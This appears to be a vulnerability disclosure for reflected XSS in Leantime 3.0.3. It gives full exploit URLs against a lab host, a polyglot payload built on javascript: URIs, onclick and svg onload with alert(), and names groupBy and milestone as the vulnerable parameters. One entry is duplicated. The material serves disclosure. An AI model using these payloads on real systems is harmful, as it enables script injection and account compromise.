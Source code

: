 Vulnerability:

URL:  ```https://192.168.124.138/tickets/showList?currentClient=0&groupBy=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e```

Payload: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e```

Action to trigger: None

Note: The client id may need to be replaced

Version: ‎3.0.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter:  groupBy

Vendor Website: https://leantime.io/




Vulnerability:

URL:  https://192.168.124.138/tickets/showKanban?currentClient=0&milestone=140jaVasCript:/*-/*`/*\`/*%27/*%22/**/(/*%20*/oNcliCk=alert()%20)//%0D%0A%0d%0a//%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E\x3csVg/%3CsVg/oNloAd=alert(%27XSS%27)//%3E\x3e&groupBy=all&groupBy=all&search=Search&projectId=3&termInput=test

Payload: jaVasCript:/*-/*`/*\`/*%27/*%22/**/(/*%20*/oNcliCk=alert()%20)%0D%0A%0d%0a%3C/stYle/%3C/titLe/%3C/teXtarEa/%3C/scRipt/--!%3E\x3csVg/%3CsVg/oNloAd=alert(%27XSS%27)//%3E\x3e

Action to trigger: None

Note: The projectId and client id may need to be replaced

Version: ‎3.0.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: milestone

Vendor Website: https://leantime.io/




Vulnerability:

URL:  https://192.168.124.138/tickets/showList?currentClient=0&groupBy=jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e

Payload: jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123) )%0D%0A%0d%0a</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(123)//>\x3e

Action to trigger: None

Note: The client id may need to be replaced

Version: ‎3.0.3

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: groupBy

Vendor Website: https://leantime.io/



Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/leantime_3.0.3_Reflected_XSS_via_multiple_parameters.gif)
